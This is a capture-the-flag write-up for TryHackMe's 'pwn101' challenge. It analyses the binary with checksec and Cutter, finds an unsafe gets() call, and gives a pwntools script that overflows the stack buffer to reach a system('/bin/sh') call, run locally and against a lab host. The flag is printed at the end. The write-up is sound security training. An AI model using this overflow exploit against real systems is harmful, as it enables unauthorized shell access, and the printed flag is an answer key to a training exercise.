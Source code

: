 # Challenge Name : pwn101

category : pwn

clue : This should give you a start: 'AAAAAAAAAAA'

# Approach

## File Protection

```
checksec --file=pwn101-1644307211706.pwn101

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE

Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   72 Symbols        No    0      1pwn101-1644307211706.pwn101
```

This file has no Canary enable.NX(Non Executable) is enable which is mean we cannot run shell code .PIE(Position-Independant Executable) is enable : change addresss every execution.

## File Analysis with cutter
Lets open up with cutter to see the code.

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn101-1644307211706.pwn101&
```
Let's take a look at main function.
we can see there are two variable

```
; var char *s @ stack - 0x48
; var uint64_t var_ch @ stack - 0xc
```

we can see gets function is used. When we try to look up at the man page for gets

```
0x000008d5      5 e8f6fdffff             call    gets ; sym.imp.gets 
```
```
 man gets 
```
```
BUGS
       Never  use  gets().   Because  it  is impossible to tell without knowing the data in advance how many characters
       gets() will read, and because gets() will continue to store characters past the end of the  buffer,  it  is  ex‐
       tremely dangerous to use.  It has been used to break computer security.  Use fgets() instead
```

we can see that using this get function we can overflow our buffer

## Buffer Overflow

Our objective  is to overflow the buffer till it reach rbp - 4 and change it value to not equal 0x8f9

```
0x000008da      7 817dfc39050000         cmp     dword [rbp - 4], data.00000539 ; 0x539 ; compare two operands
0x000008e1      2 7516                   jne     0x8f9 ; jump short if not equal/not zero (zf=0)
```
So that is can jump to this code of block which has  call system which will open up the shell.
```
0x000008f9      7 488d3d18030000         lea     rdi, [rip + str.Thanks__Here_s_a_small_gift_for_you__3] ; 0xc18 ; load effective address; const char *s
0x00000900      5 e8abfdffff             call    puts ; sym.imp.puts ; calls a subroutine, push eip into the stack (esp) ; int puts(const char *s)
0x00000905      7 488d3d33030000         lea     rdi, [rip + str.bin_sh] ; 0xc3f ; load effective address; const char *string
0x0000090c      5 e8affdffff             call    system ; sym.imp.system ;
```

## Solution
```
0x000008c9      4 488d45c0               lea     rax, [rbp - 0x40] ; load effective address
0x000008cd      3 4889c7                 mov     rdi, rax ; moves data from src to dst; char *s
0x000008d0      5 b800000000             mov     eax, 0 ; moves data from src to dst
0x000008d5      5 e8f6fdffff             call    gets ; sym.imp.gets ; 
```

We have to remember that our write will go from lower to higher address.
from this we can see that buffer start at [rbp - 0x40] or stack - 48 . And the variable we want to rewrite is at rbp - 4 . Note that stack = rbp + 8.

![alt text](../images/image.png)

## Writing python code

writing `exploit.py` 
```
from pwn import *

context.binary = binary = "./pwn101-1644307211706.pwn101"

payload = b"A"*((0x40-0x4) + 1)

p = process()
p.recv()
p.sendline(payload)
p.interactive()
```

``` 
python3 exploit.py
```

and we get the shell

Lets do this remotely by first change the code a bit.

```
from pwn import *

context.binary = binary = "./pwn101-1644307211706.pwn101"

payload = b"A"*((0x40-0x4) + 1)

#p = process()
p = remote("10.10.246.99",9001)
p.recv()
p.sendline(payload)
p.interactive()
```
```
python3 exploit.py
[*] '/home/kali/TryHackMe/pwn101/pwn101/pwn101-1644307211706.pwn101'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 10.10.246.99 on port 9001: Done
[*] Switching to interactive mode

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
Thanks, Here's a small gift for you <3
```
now we can accesss the shell . Lets check the list of file and read the flag.

```
$ ls
flag.txt
pwn101
pwn101.c
$ cat flag.txt
THM{7h4t's_4n_3zy_oveRflowwwww}
```
